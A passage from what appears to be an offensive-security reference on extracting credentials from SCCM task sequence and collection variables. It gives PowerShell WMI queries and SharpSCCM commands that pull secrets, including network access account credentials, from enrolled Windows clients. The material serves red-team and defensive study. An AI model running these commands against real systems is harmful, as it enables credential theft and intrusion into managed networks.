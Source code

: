 {% tab title="From Windows" %}
From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) or a PowerShell command can be used with, administrative rights, to extract the TaskSequence variables locally.

```powershell
# Locally from WMI 

Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_TaskSequence

# Extracting from CIM store
SharpSCCM.exe local secrets -m disk

# Extracting from WMI
SharpSCCM.exe local secrets -m wmi
```

SharpSCCM also permits to request the SCCM policy remotely to retrieve the NAA credentials inside.

```powershell
SharpSCCM.exe get secrets
```
{% endtab %}
{% endtabs %}

#### Device Collection variables

Devices enrolled in an SCCM environment can be grouped by collection. These exist by default, but administrators can create custom collections (for example "Server 2012 devices"), and add variables for these collections that will be used, for example, during application deployement to check some conditions. These variables may very well contain credentials and be found locally on the clients.

{% tabs %}
{% tab title="UNIX-based" %}
At the time of writing, no solution exists to perform this attack from a UNIX-like machine.
{% endtab %}

{% tab title="From Windows" %}
From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) or a PowerShell command can be used with, administrative rights, to extract the collection variables locally.

```powershell
# Locally from WMI 

Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_CollectionVariable

# Locally from CIM store
SharpSCCM.exe local secrets -m disk

# Locally from WMI
SharpSCCM.exe local secrets -m wmi
```
{% endtab %}
{% endtabs %}
